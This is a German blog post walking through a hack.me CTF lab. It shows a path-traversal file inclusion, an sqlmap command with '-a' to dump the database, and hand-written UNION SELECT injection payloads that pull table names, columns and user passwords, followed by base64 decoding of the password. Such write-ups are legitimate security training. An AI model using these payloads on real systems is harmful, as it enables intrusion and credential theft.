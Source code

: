 ```yaml
---
title: Hack.me - Challenge 0x02
layout: post
permalink: hack-me-challenge-0x02-2
published: true
---
```

Ich probiere mich in letzter Zeit immer mal wieder an ein paar Challenges auf [hack.me](https://hack.me).

Wer die Seite noch nicht kennt, sollte sie unbedingt ausprobieren. elearnsecurity hat eine Seite ins Leben gerufen, auf der man PHP Code mit Schwachstellen hochladen kann. Jeder Besucher kann sich seine eigene Sandbox starten und darin den Code angreifen.

Aber zurueck zu der eigentlichen Challenge "[Challenge Lab 0x02](https://hack.me/101303/challenge-lab-0x02.html)".

    Hello again.

    We are souvlakiteam!

    In this new challenge you will be able to exercise your skills in an CTF challenge.

    The following challenge is devided in 3 parts. You can move to the next part only if you hack the   previous step.
    The attacks you will need to execute are well-known attacks. Two of them are also on the OWASP 10.

    Are you ready to hack it?

    Go on!

# Spoiler-ALERT!!!!

*Wer die Challenge selber loesen will, sollte hier nicht weiterlesen.*

Man wird mit einer Bierseite begruesst.
![]({{site.baseurl}}/img/posts/2016-06-22-012744_986x662_scrot.png)

## Local File Inclusion
Nachdem man ein wenig auf den ersten Seite rumgeklickt hat sollte erstmals die URLs

* /about.php?a=industrialization
* /about.php?a=ingredients

ins Auge gefallen sein. Auch sollte man den neuen Menupunkt "Fresh News" sehen, der hinzugekommen ist.

![]({{site.baseurl}}/img/posts/2016-06-22-012954_297x266_scrot.png)

Unter diesem Menupunkt bekommt man den ersten Hinweis:

```
TIP [1/4]: usually the SALT is stored in a file called: config.php
```

Wenn man aber versucht eine einfache [LFI](https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion) auszufuehren mit `/about.php?a=config.php` wird man auf die Seite 404.php weitergeleitet. Auch bei `/about.php?a=index.php` ist es die gleiche 404.php.

Also befinden wir uns noch nicht im richtigen Ordner.
Ein kurzer Check mit `/about.php?a=../index.php` bestaetigt das. Aber auch hier kann keine config.php gefunden werden.
Probieren wir das ganze ohne die PHP Endung bekommen wir eine ominoese Fehlermeldung.

![]({{site.baseurl}}/img/posts/2016-06-22-15_06_01-More-about-beer.png)

Es handelt sich hierbei also um einen Ordner. Wenn man nun dort also noch die `config.php` in dem Ordner `../config` aufruft, kann man im Quelltext den Salt finden.

![]({{site.baseurl}}/img/posts/2016-06-22-15_08_12-http___s43216-101303-idu-sipontum-hack-me_about-php_a---_config_config-php.png)

Damit sind wir im nächsten Level bei einer SQL Injection.

## SQL Injection

Hierbei kann man sich verschiedene Biere genauer anschauen. Jedes Bier wird über die URL `/beer.php?id=<ID>` aufgerufen, wobei die ID eine beliebige Zahl sein kann.
Da ich ja schon sagte, dass es sich hierbei um eine SQLi handelt, bleibt uns nur der Parameter `id` übrig. Das es sich hierbei um eine SQLi handelt findet man im Menüpunkt "Kelly Green", der nach Eingabe eines einfachen Anführungszeichens sichtbar wird.

![]({{site.baseurl}}/img/posts/2016-06-22-15_26_46-2---Checkpoint.png)

Nun gibt es hier 2 Methoden dies zu lösen.

### Allzweckwaffe SQLMap
Das ist die Hau-Drauf-Methode. Man startet SQLMap mit folgendem Befehl:

```
$ sqlmap --cookie="PHPSESSID=<value>" "http://<server>.hack.me/beer.php?id=1" -a --dbms=MySQL
```

SQLMap wird an dieser Stelle mehrere Injection Points finden. Hierbei sind unter anderem:

```
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 6528=6528 AND 'Xrzt'='Xrzt

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
    Payload: id=1' AND (SELECT * FROM (SELECT(SLEEP(5)))VEkS) AND 'EYyJ'='EYyJ

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=1' UNION ALL SELECT NULL,CONCAT(0x71716b6b71,0x42794f7544496575495347724c6a4676424d6a50434849585867774f474575575669456c77634d6f,0x716a7a6271),NULL-- -
```
Zudem bewirkt der Parameter `-a`, dass er die komplette Datenbank abspeichert.

### Old fashioned handjob
Wer kein SQLMap zur Verfügung hat, kann auch einfach die gute alte Methode verwenden und selber Hand anlegen.
Durch die Eingabe eines einfachen Anführungszeichen bekommen wir folgende Fehlermeldung, welche uns eine vorhande SQLi bestätigt.

```
Warning: mysql_fetch_array() expects parameter 1 to be resource, boolean given in C:\inetpub\wwwroot\coliseum\client\sandbox\43216-101303\BODY\inner\beer.php on line 31
```

Durch weiteres rumprobieren kommt man darauf, dass die Eingabe `' union select 1,2,'3` eine gewollte Ausgabe, ohne Fehlermeldung, liefert.

![]({{site.baseurl}}/img/posts/2016-06-22-15_22_15-Program-Manager.png)
Wir wissen nun 2 Punkte:

* 2 und 3 sind für Ausgaben gut
* Wir brauchen am Ende einen String mit einem einfachen Anführungszeichen am Anfang und keinem Anführungszeichen am Ende.

Wenn man sich ein wenig mit SQL auskennt, kann man sich aus den Bedingungen folgenden SQL Befehl zusammenbauen, um alle Tabellen Namen auszugeben:

```
' UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema
```

Das `group_concat` bewirkt hierbei, dass die Namen zusammengefügt und als ein String ausgegeben werden.

![]({{site.baseurl}}/img/posts/2016-06-22-15_25_42-Program-Manager.png)

D.h. die Datenbank hat also 2 Tabellen. Da wir das Passwort von Kelly Green holen wollen, ist die Datenbank `users` interessant.

Wenn wir unseren SQL Exploit ein wenig anpassen, bekommen wir auch alle Columns der Tabelle `users`:

```
' UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users' AND table_schema != 'mysql' AND table_schema != 'information_schema
```
![]({{site.baseurl}}/img/posts/2016-06-22-15_29_38-Program-Manager.png)

Wir wollen das Passwort von Kelly Green aus der Tabelle `users` haben, was wir mit folgendem SQL Exploit erreichen.

```
' UNION SELECT 1,2,group_concat(concat(name,' - ',surname,' - ',password),'<br />') FROM users WHERE name='Kelly' and surname='Green
```

![]({{site.baseurl}}/img/posts/2016-06-22-15_31_24-Program-Manager.png)

Alternativ können auch einfach alle Benutzer ausgegeben werden, wenn man die Where-Statements weglässt und ein einfaches `where 1='1` aufgrund des Anführungszeichens hinzufügt.

![]({{site.baseurl}}/img/posts/2016-06-22-15_31_56-Our-Beers.png)

Nun haben wir also das Passwort von Kelly Green und können endlich in die letzte Challenge.

## Decipher das Passwort
Wenn man sich das Passwort näher anschaut, fällt einem das `=` am Ende auf, was base64 als Padding verwendet.
Wenn man base64 Decoder auf den String anwendet, kommt tatsächlich ein neuer String raus, der unserem ursprünglichem Salt+Passwort sehr ähnlich sieht: `S09ONTY4dfsa780fsd6b78f6bds6aft876asd658a`
Wir strippen also den Salt von dem String und kommen mit einem Passwort raus `S09ONTY4`.

Nach Eingabe des Passwortes:
![]({{site.baseurl}}/img/posts/2016-06-22-15_35_44-3---Final-STEP.png)

Awwww....

Wir haben aber auch den Tip noch nicht beachtet:

```
TIP [1/4]: TIP: you have the dump of database, but we know that in the table users someone writes the algorithm to store the password...	
```

Hierzu muss man wissen, dass man in MySQL Kommentare zu Tabellen speichern kann. Diese kann man einfach über die Information_Schema Datenbank abfragen.

```
' UNION SELECT 1,2,group_concat(table_comment,'<br />') FROM information_schema.tables WHERE table_name='users
```

Dies liefert uns den Algorithmus: `password = base64(base64(password) + salt)`

Wir müssen also `S09ONTY4` nochmal mit base64 Decoden und landen bei `KON568`.

Nach Eingabe dieses Strings, endlich:
![]({{site.baseurl}}/img/posts/2016-06-22-15_39_47-3---Final-STEP.png)

*(Wer mit SQLMap einfach die gesamte Datenbank geholt hat, hätte auch einfach nach `base64` grepen können und der Algorithmus wäre klar gewesen)* 

so long.

